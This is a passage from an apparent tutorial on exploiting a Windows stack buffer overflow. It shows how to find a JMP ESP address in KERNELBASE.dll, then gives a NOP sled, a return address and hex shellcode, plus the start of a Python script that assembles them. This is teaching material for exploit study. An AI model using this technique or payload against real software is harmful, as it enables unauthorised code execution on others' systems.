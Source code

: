 Lots of programs load helper libraries in the form of DLL files. Lets use one of those and borrow it to execute our JMP ESP command.

Since these files are loaded in memory, you can overwrite the return address to execute any line of code in those DLL files.

![EM](images/executable_modules.png)

The base address for the EXE is at 00400000, no good.

So lets use a line of code in KERNELBASE.dll since its base address starts at 74EE0000.

1. Double-click KERNELBASE.dll

2. Scroll through the code until you find a `JMP ESP` line of code.

3. Write down the memory address if it does not have a 00, otherwise find another.

4. (You can also search with CTRL-F instead of scrolling)

   ​

Woooo! I found one at `0FFF92ED`



### Final Exploit

Now, we have all the ingredients to craft our malicious string:

1. 504 characters representing nothing, `NOP` or `\x90` in hex
2. Our return address in hex (little endian): `\xED\x92\xff\x0f`
3. Our payload: `\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x52\x31\x63\x01\x68\x64\x42\x79\x33\x68\x48\x34\x63\x6b\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff\xd7`



We will use a Python script to help us type all this mess for us.



```python
import subprocess

#reverse a string in python
#we need to reverse the bytes
#of the return address
#little endian format
def reversed_string(a_string):
    return a_string[::-1]

return_address = "\x0f\xff\x92\xED"
payload = "\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x52\x31\x63\x01\x68\x64\x42\x79\x33\x68\x48\x34\x63\x6b\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff\xd7"

#504 bytes to overflow string and byte pointer
exploit = "\x90" * 504

```